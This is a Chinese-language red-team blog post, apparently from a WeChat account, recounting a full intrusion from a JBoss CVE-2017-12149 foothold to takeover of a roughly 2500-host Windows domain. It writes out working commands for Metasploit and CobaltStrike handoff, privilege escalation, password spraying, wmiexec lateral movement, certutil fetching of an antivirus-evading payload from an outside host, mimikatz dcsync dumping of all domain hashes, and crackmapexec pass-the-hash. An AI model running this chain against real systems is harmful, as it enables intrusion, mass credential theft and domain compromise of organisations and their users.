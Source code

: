 #  一次利用 Metasploit 进行特权提权，再到 2500 台主机的内网域渗透

原创 渗透攻击红队  [ 渗透攻击红队 ](javascript:void\(0\);)

**渗透攻击红队** ![]()

微信号 RedTeamHacker

功能介绍 一个专注于渗透红队攻击的公众号

____

__

收录于话题

#域内渗透 38 个

#内网渗透 22 个

#红队攻击 45 个

## 前言

首先是通过 **CVE-2017-12149** 拿到了一个口子：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324131944.png)

但其实 Jboss 的这个路径可以查看到日志 http://redteam.red:9090/status 发现有日志，已经被上传了 webshell：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324131946.png)

后来通过 Bypass 后使用 powershell 上线到 CobaltStrike：  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324131947.png)

## 利用 Metasploit 特权提权拿到 SYSTEM SHELL  

上线之后通过信息搜集发现有几百个补丁，通过已知漏洞提权无果：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324131948.png)

随后吧 CobaltStrike 的 Beacon 互传到了 Metasploit：  

    
    
    CS：  
    创建监听器windows/foreign/reverse_http  
    执行监听器 spawn msf  
      
    MSF：  
    use exploit/multi/handler  
    set payload windows/meterpreter/reverse_http  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324131949.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324131950.png)

然后通过 Metasploit 的提权检测模块找到了几个提权 exp ：  

    
    
    run post/multi/recon/local_exploit_suggester  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324131951.png)

然后利用提权 exp :

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324131953.png)

发现用户没变，但是当前特权变多了：  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324131954.png)

然后直接 getsystem 提权到 SYSTEM：  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324132000.png)

最后利用 SYSYEM 身份的把 shell 传到 Cobaltstrike：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324132001.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324132005.png)

当前权限就可以抓到密码了：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324132006.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324132008.png)

## 内网渗透  

虽然已经拿到 SYSTEM 会话身份，但是发现没有域管的进程，结果只能另寻他路！然后用抓到到密码去喷射域内其他主机：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324132008.png)

然后横向 wmi 横向移动：  

    
    
     proxychains python3 wmiexec.py -shell-type cmd administrator:passwd@xx.xx.0.108 -codec gbk  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324132016.png)

之后发现 10.xx.0.156 有一个域管的进程：`tsklist /v`  

并且发现当前机器还有微软自带杀毒：  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324132018.png)

随后通过 Golang 做了一下免杀，然后让目标下载我们的 exe，通过 `certutil `下载我们的 exe：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324132019.png)

然后运行发现有问题：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324132021.png)

然后我吧 exe 编码成 txt：

    
    
    certutil -encode main.exe main.txt  
    

然后目标下载 txt 然后解码再运行：

    
    
    certutil.exe -urlcache -split -f http://redteam.red:80/download/main.txt  
      
    certutil -decode main.txt main.exe  
    

直接上线到 CobaltStrike：

![]()

然后先 getsystem 提权到 SYSYEM：  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324132022.png)

然后窃取域管的进程：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324132023.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324132024.png)

随后查询域控IP：

    
    
    shell net group "Domain Controllers" /domain  
    shell ping Controllers Computer (ping 域控机器名即可得到IP)  
    

直接拿到域控：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324132026.png)

最后直接 dcsync dump 域内全部 hash：  

    
    
    mimikatz lsadump::dcsync /domain:redteam.red /all /csv > c:\hash.txt  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324132028.png)

这个时候域内数千多个域用户的 hash 都拿到了，可以进行 pth，此时利用 administrator 的 hash 来对域内机器进行批量执行命令：

    
    
    proxychains crackmapexec smb 192.168.0.0/24 -u administrator -H xxxxxxxxxxxxxxxxxxxxx -d psnet.com -x "net user"  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324132031.png)

最后使用 SharpHound.exe 查看下域内信息：

    
    
    execute-assembly /Users/saulgoodman/Downloads/SharpHound.exe -c all  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324132032.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220324132033.png)

看了看，内网 5000 多个用户，2500 多台机器都沦陷，没啥难度。

预览时标签不可点

收录于话题 #

 个

上一篇 下一篇

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。 视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

